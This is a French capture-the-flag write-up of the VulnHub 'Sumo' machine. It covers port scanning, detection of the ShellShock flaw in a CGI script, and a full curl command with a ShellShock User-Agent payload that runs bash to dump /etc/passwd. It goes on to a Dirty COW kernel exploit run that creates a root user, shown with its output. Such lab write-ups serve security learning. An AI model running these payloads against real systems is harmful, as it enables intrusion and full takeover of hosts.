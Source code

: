 # Solution du CTF Sumo de VulnHub

One way or another
------------------

Voici un writeup pour [Sumo](https://www.vulnhub.com/entry/sumo-1,480/), petit CTF créé par *SunCSR Team*.  

```plain
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 06:cb:9e:a3:af:f0:10:48:c4:17:93:4a:2c:45:d9:48 (DSA)
|   2048 b7:c5:42:7b:ba:ae:9b:9b:71:90:e7:47:b4:a4:de:5a (RSA)
|_  256 fa:81:cd:00:2d:52:66:0b:70:fc:b8:40:fa:db:18:30 (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.22 (Ubuntu)
```

On a un serveur web et un serveur SSH. Comme vous le verrez on pourra même se passer du second.  

Je lance Nuclei sur le serveur web qui me trouve direct une vulnérabilité :  

```plain
[2021-12-27 11:56:38] [CVE-2014-6271] [http] [critical] http://192.168.56.15/cgi-bin/test
```

Il s'agit de la faille ShellShock. Wapiti est en mesure de confirmer la vulnérabilité :  

```plain
$ ./bin/wapiti -u http://192.168.56.15/cgi-bin/test --scope url -m shellshock
ujson module not found, using json
msgpack not installed, MsgPackSerializer unavailable

     __      __               .__  __  .__________
    /  \    /  \_____  ______ |__|/  |_|__\_____  \
    \   \/\/   /\__  \ \____ \|  \   __\  | _(__  <
     \        /  / __ \|  |_> >  ||  | |  |/       \
      \__/\  /  (____  /   __/|__||__| |__/______  /
           \/        \/|__|                      \/
Wapiti 3.0.9 (wapiti.sourceforge.io)
[*] Enregistrement de l'état du scan, veuillez patienter...
[!] Unable to import module ssl

[*] Lancement du module shellshock
L'URL http://192.168.56.15/cgi-bin/test semble vulnérable à l'attaque Shellshock !
```

I'm gonna find ya
-----------------

On peut exploiter la vulnérabilité directement avec cURL :  

```plain
$ curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://192.168.56.15/cgi-bin/test

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
messagebus:x:102:104::/var/run/dbus:/bin/false
sumo:x:1000:1000:sumo,,,:/home/sumo:/bin/bash
sshd:x:103:65534::/var/run/sshd:/usr/sbin/nologin
```

J'ai profite donc pour obtenir un shell via *ReverseSSH*.  

L'utilisateur *sumo* est intéressant car fait partie de groupes privilégiés :  

```plain
uid=1000(sumo) gid=1000(sumo) groups=1000(sumo),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),109(sambashare)
```

Mais il ne dispose ni de fichiers ni de processus utilisables pour une escalade de privilèges...  

I'm gonna getcha getcha getcha getcha
-------------------------------------

La machine est vulnérable à différents exploits Kernel dont [Dirty COW](https://dirtycow.ninja/).  

L'exploit signé Firefart donne généralement des bons résultats donc je ne suis pas allé chercher ailleurs.  

```plain
www-data@ubuntu:/tmp$ ./dirty holyc0w
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: holyc0w
Complete line:
firefart:fim4kAXNC8Hg6:0:0:pwned:/root:/bin/bash

mmap: 7f3cf6da9000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'holyc0w'.

DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'holyc0w'.

DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
www-data@ubuntu:/tmp$ grep firefart /etc/passwd
Binary file /etc/passwd matches
www-data@ubuntu:/tmp$ su firefart
Password: 
firefart@ubuntu:/tmp# id
uid=0(firefart) gid=0(root) groups=0(root)
firefart@ubuntu:/tmp# cd /root
firefart@ubuntu:~# ls
root.txt
firefart@ubuntu:~# cat root.txt
{Sum0-SunCSR-2020_r001}
```



*Published December 27 2021 at 13 38*
